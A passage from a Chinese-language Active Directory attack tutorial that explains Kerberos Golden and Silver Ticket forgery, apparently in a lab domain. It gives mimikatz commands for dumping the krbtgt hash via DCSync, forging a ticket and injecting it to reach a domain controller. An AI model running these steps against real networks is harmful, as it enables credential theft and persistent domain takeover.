 
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001718.png)

现在就可以访问域控的文件夹了

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001720.png)

至于用其他工具反弹cmd可以自己探索！

### 0x3-2 Golden Ticket(黄金票据)

Golden
ticket的作用是可以生成任意用户的tgt,那么问题就来了,是什么条件能够让他生成任意用户的tgt呢？还得要看kerberos认证的过程,在windows认证过程中，客户端将自己的信息发送给KDC,然后KDC使用krbtgt用户密码的hash作为密钥进行加密，生成TGT。

krbtgt只有域控制器上面才有，所以使用黄金凭据意味着你之前拿到过域控制器的权限,黄金凭据可以理解为一个后门。

伪造黄金凭据需要具备下面条件：

  * krbtgt用户的hash(就意味着你已经有域控制器权限了)
  * 域名称
  * 域的SID值
  * 要伪造的用户名

    
    
    privilege::debug  
    lsadump::dcsync /domain:god.org /user:krbtgt  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001721.png)

    
    
    kerberos::golden /admin:system /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089-1000 /krbtgt:58e91a5ac358d86513ab224312314061 /ticket:ticket.kirbi  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001722.png)

    
    
    kerberos::purge #清除票据  
    kerberos::ptt 票据地址 #将票据注入内存  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001723.png)

成功访问！

### 0x3-3 Silver Ticket(白银票据)

如果说黄金票据是伪造的 TGT,那么白银票据就是伪造的 ST。在 Kerberos 认证的第三部，Client 带着 ST 和 Authenticator3
向 Server 上的某个服务进行请求，Server 接收到 Client 的请求之后,通过自己的 Master Key 解密 ST,从而获得
Session Key。通过 Session Key 解密 Authenticator3,进而验证对方的身份,验证成功就让 Client 访问 server
上的指定服务了。所以我们只需要知道 Server 用户的 Hash 就可以伪造出一个 ST,且不会经过 KDC,但是伪造的门票只对部分服务起作用。

白银票据这里只是对单一的服务进行授权，利用过程和golden ticket差不多，首先上域控制器中，把机器的ntlm hash(rc4加密)
dump下来，然后在普通域用户机器进行伪造权限，进行ptt。
